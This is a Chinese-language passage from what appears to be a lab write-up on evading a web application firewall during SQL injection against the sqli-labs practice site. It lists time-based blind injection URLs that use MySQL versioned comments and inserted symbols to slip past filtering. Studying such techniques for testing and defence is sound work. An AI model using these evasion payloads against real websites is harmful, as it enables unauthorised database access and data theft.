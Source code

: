 ![添加条件判断注释](./../../../../../../images/SQL%20Injection%20%E5%85%8D%E6%9D%80/%E6%B7%BB%E5%8A%A0%E6%9D%A1%E4%BB%B6%E5%88%A4%E6%96%AD%E6%B3%A8%E9%87%8A.png)

> 成功绕过
>
> 网页响应时间为 2 秒

提交注释后的参数

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'/*!11440and*/if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

> 成功绕过

在 and 后加 !

> and 参数后可以跟奇数个数的特殊符号，包括但不限于 !~&-

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'and!if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

> 不拦截，但是时间与预期不符
